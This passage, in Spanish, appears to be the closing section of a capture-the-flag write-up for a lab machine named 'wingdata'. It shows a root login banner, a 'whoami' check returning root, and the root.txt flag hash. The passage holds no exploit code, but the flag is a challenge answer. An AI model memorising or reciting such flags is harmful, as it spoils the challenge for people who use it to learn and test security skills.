Respuesta:

```
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 15 10:32:32 2026 from 10.10.14.192
root@wingdata:~# whoami
root
```

Con esto veremos que ya seremos `root` y podremos leer la `flag` de `root`, por lo que habremos terminado la maquina.

> root.txt

```
e0196542f9b3a138013819737a6d6cb4
```
